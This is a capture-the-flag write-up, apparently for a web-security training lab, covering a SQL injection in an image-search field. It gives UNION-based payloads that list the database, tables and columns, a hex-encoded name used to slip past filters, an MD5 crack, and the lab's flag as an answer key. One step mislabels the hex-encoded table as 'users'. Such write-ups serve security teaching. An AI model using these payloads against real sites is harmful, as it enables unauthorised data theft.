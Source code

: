 ## Flag

```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## How to find the flag

1. **Identifying SQL Injection Vulnerability**:
    
    If we scroll down in the main page and we go to the search image section, there is a field to search for an image by ID. This field is directly vulnerable to SQL injection. We can use a UNION-based SQL injection to retrieve information about the web-server.
    
2. **Retrieving Database information:**
    
    In order to obtain the database currentyly in use, we can type:
    
    ```sql
    1 union select database(), user()
    ```
    
    Output:
    
    ```
    Member_images
    ```
    
3. **Retrieving Tables in a Database**:
    
    Next, we can list tables within the **Member_images** database using:
    
    ```sql
    1 union select table_name, 2 from information_schema.tables where table_schema=database()
    ```
    
    Output:
    
    ```
    list_images
    ```
    
4. **Finding Columns in the “list_images” table:**
    
    We can view columns within the "list_images" table by using:
    
    ```sql
    1 union select column_name, 2 from information_schema.columns where table_name=0x6c6973745f696d61676573
    ```
    
    Here, we converted "users" to hexadecimal (0x6c6973745f696d61676573) to bypass potential SQL injection filters.
    
5. **Extracting data:**
    
    Now that we know the columns in the "list_images" table, we see a column named "**comment**" To view its content, we use:
    
    ```sql
    1 UNION SELECT comment, 2 FROM list_images
    ```
    
    We obtain:
    
    ```
    If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
    ```
    
6. **Decrypting the Hash:**
    
    Using an MD5 decrypter, we decrypt this hash to reveal: albatroz. By converting it to lowercase and hashing it with SHA-256, we obtain the final flag.
